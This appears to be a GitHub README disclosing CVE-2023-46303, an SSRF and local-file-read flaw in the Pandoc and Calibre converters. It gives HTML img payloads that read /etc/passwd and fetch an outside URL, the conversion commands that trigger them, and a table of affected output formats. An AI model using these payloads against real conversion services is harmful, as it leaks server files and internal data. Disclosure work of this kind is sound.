 # :bee: CVE-2023-46303
## SSRF Vulnerability in PANDOC and CALIBRE
### UPDATE: https://nvd.nist.gov/vuln/detail/CVE-2023-46303
-
-
-
-
- 
## :mushroom: PANDOC

### :spider_web: https://github.com/jgm/pandoc (Pandoc in Github)
- What is Pandoc?
- Pandoc is a Universal Markup Converter

[![Star History Chart](https://api.star-history.com/svg?repos=jgm/pandoc)](https://star-history.com/#jgm/pandoc)
---
-
-
-
-
## :mushroom: CALIBRE

### :spider_web: https://github.com/kovidgoyal/calibre (Calibre in Github)
- What is Calibre?
- The official source code repository for the calibre ebook manager

[![Star History Chart](https://api.star-history.com/svg?repos=kovidgoyal/calibre&type=Date)](https://star-history.com/#kovidgoyal/calibre)
---
-
-
-
-

## For Example
+ ### We install both applications on a linux computer and create a test file with html

### :lady_beetle: ssrf.html
+ `<img src="file:///etc/passwd">`
+ `<img src="http://ip-api.com/csv">`
+ ![ssrf.html](img/0x1.png "ssrf.html")

## Where does the vulnerability occur and how is it triggered?
+ When we want to convert an html file to a different document via terminal, we use the following command.
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ `$ ebook-convert ssrf.html ssrf.epub` CALIBRE

## SSRF via Converter (Example is PANDOC but you can also try CALIBRE)
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ ![0x2.png](img/0x2.png "0x2.png")
+ ![0x3.png](img/0x3.png "0x3.png")
+ After the html file is successfully converted to epub file, you need to open this epub file with "Archive Manager"
+ When we check the folders and subfolders in the epub file we opened with "Archive Manager", we will see one or two different files. When we open these files, we can see that the ssrf vulnerability is triggered.
+ ![0x4.png](img/0x4.png "0x4.png")
+ ![0x5.png](img/0x5.png "0x5.png")
+ ![0x6.png](img/0x6.png "0x6.png")
+ ![0x7.png](img/0x7.png "0x7.png")
+ ![0x8.png](img/0x8.png "0x8.png")

---
-
-
-
-

+ I went through all converter processes in pandoc and calibre and found that this vulnerability exists in multiple converters.
+ In the table below, you can examine what types of ssrf are in which files.
+ You can also use the iframe tag instead of the img tag in calibre.

| PANDOC | EPUB | ODT | DOCX | PPTX | FB2 |
| --- | --- | --- | --- | --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: | :x:
`<img src="http://ip-api.com/csv">` | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: (Base64 Encoded)

| CALIBRE | EPUB |
| --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: |
`<img src="http://ip-api.com/csv">` | :x: |

+ In the example, we converted our html file to epub, but as you can see in the table above, we can see that the vulnerability is triggered not only when converting to epub but also other files.
---
-
-
-
-

> #### Created by 0x1717 aka GYG3S
